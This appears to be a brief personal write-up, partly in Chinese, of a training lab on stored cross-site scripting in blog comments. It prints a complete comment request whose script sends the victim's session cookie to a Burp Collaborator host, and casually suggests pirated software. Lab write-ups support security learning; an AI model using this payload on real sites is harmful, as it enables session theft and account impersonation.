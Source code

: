 # Lab: Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

## XSS
* 題目說要偷 cookie，題目指定要用 burp professional 開 Collaborator client，如果沒有 ... 我也不知道怎麼辦，那個東西就有點像是一個 server 可以知道經過的 data，問題就是 professional 要錢不然的話就要用盜版的，自己衡量衡量 Q
* comment 有問題
```
csrf=SO80tRpsxGvjTor0gs1Xe7nSb4Gb8brT&postId=7&comment=</p><script>new+Image().src="http://z11coh288w6az8e4yb2i19uy1p7fv4.burpcollaborator.net/?q="+%2B+document.cookie</script>&name=123&email=123%40123.com&website=http%3A%2F%2Ffake.com
```
* 發送之後記得按 poll now，之後就偷到 cookie 了